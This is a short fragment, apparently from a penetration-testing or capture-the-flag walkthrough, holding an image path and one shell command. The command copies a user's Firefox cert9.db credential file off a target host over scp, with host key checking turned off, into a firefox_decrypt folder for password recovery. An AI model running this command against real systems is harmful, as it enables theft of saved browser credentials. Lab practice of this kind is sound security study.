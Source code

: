scp -o StrictHostKeyChecking=no -r elliot@192.168.120.148:/home/elliot/.mozilla/firefox/esmhp32w.default-default/cert9.db /home/kali/firefox_decrypt/"
